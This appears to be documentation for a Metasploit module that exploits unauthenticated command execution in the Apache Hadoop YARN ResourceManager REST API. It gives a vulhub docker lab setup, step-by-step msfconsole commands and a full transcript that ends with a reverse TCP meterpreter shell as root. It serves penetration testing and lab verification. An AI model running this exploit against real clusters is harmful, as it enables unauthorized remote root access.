 ## Description  

This module exploits an unauthorized command execution vulneralbility in Apache Hadoop through ResourceManager REST API.

## Vulnerable Application  

**Vulnerable Application Link** 

- docker  

https://github.com/vulhub/vulhub/tree/master/hadoop/unauthorized-yarn

## Vulnerable Application Installation Setup.

Change dictory to `vulhub/hadoop/unauthorized-yarn`, and run `docker-compose up -d` 


## Verification Steps  

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/hadoop_unauth_exec```
  4. Do: ``set rhost x.x.x.x``
  5. Do: ``set rport 8088``
  6. Do: ``check``

``[+] 192.168.77.141:8088 The target is vulnerable.``

  7. Do: `set payload linux/x86/meterpreter/reverse_tcp`
  8. Do: ``exploit``
  9. You should get a shell.


## Scenarios  

```
msf5 > use exploit/linux/http/hadoop_unauth_exec 
msf5 exploit(linux/http/hadoop_unauth_exec) > show options 

Module options (exploit/linux/http/hadoop_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    8088             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(linux/http/hadoop_unauth_exec) > set rhost 192.168.77.141 
rhost => 192.168.77.141        
msf5 exploit(linux/http/hadoop_unauth_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(linux/http/hadoop_unauth_exec) > show options 

Module options (exploit/linux/http/hadoop_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.77.141   yes       The target address
   RPORT    8088             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(linux/http/hadoop_unauth_exec) > set lhost 192.168.77.141 
lhost => 192.168.77.141
msf5 exploit(linux/http/hadoop_unauth_exec) > exploit 

[*] Started reverse TCP handler on 192.168.77.141:4444 
[*] Sending Command
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Sending stage (853256 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.77.141:4444 -> 172.20.0.3:34138) at 2018-05-15 03:21:17 -0400

meterpreter > getuid 
Server username: uid=0, gid=0, euid=0, egid=0
```